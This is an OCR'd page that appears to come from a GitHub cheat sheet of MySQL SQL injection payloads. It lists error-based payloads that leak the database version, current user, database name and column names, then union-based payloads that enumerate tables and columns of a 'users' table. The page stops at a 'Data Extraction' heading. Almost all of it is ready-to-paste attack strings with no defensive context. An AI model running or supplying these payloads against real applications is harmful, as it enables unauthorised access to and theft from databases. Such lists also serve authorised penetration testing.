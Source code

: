 ### Error-Based SQLi

- **Version Information:** Causes an error that reveals the MySQL version.

```
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a,version(),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- -
```

- **User Information:** Extracts the current database user.

```
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a,user(),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- -
```

- **Database Name:** Reveals the name of the current database.

```
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a,database(),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- -
```

- **Column Name Extraction:** Causes an error that exposes a column name from a specified table.

```
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a,(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- -
```

### Union-Based SQLi

- **Database Version:** Appends the MySQL version to the query results.

```
' UNION SELECT NULL, version() -- -
```

- **Database Name:** Retrieves the name of the current database.

```
' UNION SELECT NULL, database() -- -
```

- **Table Name Enumeration:** Extracts the name of a table from the current database.

```
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1 -- -
```

- **Column Name Enumeration:** Retrieves the name of a column from the specified table.

```
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1 -- -
```

- **Data Extraction:** Extracts data from specific columns in the `users` table.
